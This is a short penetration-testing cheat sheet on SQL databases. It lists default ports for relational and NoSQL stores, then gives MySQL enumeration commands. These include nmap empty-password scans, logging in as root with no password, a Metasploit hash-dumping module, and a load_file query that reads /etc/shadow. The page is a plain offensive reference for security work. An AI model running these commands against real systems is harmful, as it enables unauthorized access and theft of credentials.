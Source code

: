 ```yaml
---
description: >-
  Structured Query Language (SQL) is a standardized programming language that is
  used to manage relational databases and perform various operations on the data
  in them.
---
```


# SQL

{% hint style="info" %}
### Relational databases default ports <a href="#relational-databases" id="relational-databases"></a>
{% endhint %}

| Database           | Port(s)    | Doc                                                                                     |
| ------------------ | ---------- | --------------------------------------------------------------------------------------- |
| MaxDB              | 7210       | [Doc](http://maxdb.sap.com/doc/7\_7/44/bf820566fa5e91e10000000a422035/content.htm)      |
| MySQL              | 3306       | [Doc](https://dev.mysql.com/doc/refman/5.7/en/security-guidelines.html)                 |
| Oracle DB          | 1521, 1830 | [Doc](https://docs.oracle.com/cd/B19306\_01/network.102/b14213/protocoladd.htm#i470539) |
| PostgreSQL         | 5432       | [Doc](https://www.postgresql.org/docs/9.1/static/runtime-config-connection.html)        |
| SQL Server (MSSQL) | 1433, 1434 | [Doc](https://msdn.microsoft.com/de-ch/library/cc646023.aspx)                           |

{% hint style="info" %}
### NoSQL databases and other data stores  default ports <a href="#nosql-databases-and-other-data-stores" id="nosql-databases-and-other-data-stores"></a>
{% endhint %}

| Database      | Port(s)                    | Doc                                                                                                  |
| ------------- | -------------------------- | ---------------------------------------------------------------------------------------------------- |
| Cassandra     | 7000, 7001, 9042           | [Doc](https://cassandra.apache.org/doc/latest/faq/index.html#what-ports)                             |
| CouchDB       | 5984                       | [Doc](http://docs.couchdb.org/en/2.0.0/config/http.html)                                             |
| Elasticsearch | 9200, 9300                 | [Doc](https://www.elastic.co/guide/en/elasticsearch/guide/current/\_talking\_to\_elasticsearch.html) |
| MongoDB       | 27017, 27018, 27019, 28017 | [Doc](https://docs.mongodb.com/v3.2/reference/default-mongodb-port/)                                 |
| Neo4J         | 7473, 7474                 | [Doc](https://neo4j.com/docs/stable/tools-webadmin.html)                                             |
| Redis         | 6379                       | [Doc](https://redis.io/topics/quickstart)                                                            |

## Enum

```bash
# Default scan
nmap $IP -sV -p 3306 

# empty password script
nmap $IP -sV -p 3306 --script-empty-password

#Get Mysql info
nmap $IP -sV -p 3306 --script-info

# Try to connect directly without a password
mysql -h $IP -u root

# Metasploit way
msfconsole
set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt
setg rhosts $IP
set verbose false
run

## Hashdump
msfconsole
use auxiliary/scanner/mysql/mysql_hashdump 
setg rhosts $IP
set username root
set password ""
run
```

#### Access local files via db

```sql
# connect to instance
mysql -h $IP -u root

# run query
select load_file("/etc/shadow");
```
